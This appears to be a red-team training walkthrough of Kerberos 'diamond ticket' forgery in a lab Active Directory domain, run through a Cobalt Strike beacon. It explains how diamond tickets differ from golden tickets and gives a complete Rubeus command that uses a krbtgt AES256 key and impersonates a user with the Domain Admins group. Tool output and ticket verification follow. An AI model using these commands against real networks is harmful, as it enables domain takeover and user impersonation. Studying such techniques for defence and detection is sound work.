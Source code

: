 Like a golden ticket, a diamond ticket is a TGT which can be used to access any service as any user.  A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use.  Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.

Therefore, a possible tactic to detect the use of golden tickets is to look for TGS-REQs that have no corresponding AS-REQ.  A "diamond ticket" is made by modifying the fields of a legitimate TGT that was issued by a DC.  This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it.  This overcomes the aforementioned shortcoming of a golden ticket because any TGS-REQs will have a preceding AS-REQ.

First, we prove we have no access to the DC.
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> ls \\dc-2.dev.cyberbotic.io\c$
[-] could not open \\dc-2.dev.cyberbotic.io\c$\*: 5 - ERROR_ACCESS_DENIED
```
  

Diamond tickets can be created with Rubeus.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap
```
  

Where:

- `/tgtdeleg` uses the Kerberos GSS-API to obtain a useable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
- `/ticketuser` is the username of the user to impersonate.
- `/ticketuserid` is the domain RID of that user.
- `/groups` are the desired group RIDs (512 being Domain Admins).
- `/krbkey` is the krbtgt AES256 hash.

  
```
[*] Action: Diamond Ticket

[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: +mzV4aOvQx3/dpZGBaVEhccq1t+jhKi8oeCYXkjHXw4=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFgz [...snip...] MuSU8=

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

      doIFYj [...snip...] MuSU8=
```
  

Rubeus `describe` will now show that this is a TGT for the target user.
```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  7/7/2022 8:41:46 AM
  EndTime                  :  7/7/2022 6:41:46 PM
  RenewTill                :  1/1/1970 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jp4k3G5LvXpIl3cuAnTtgLuxOWkPJIUjOEZB5wrHdVw=
  ```
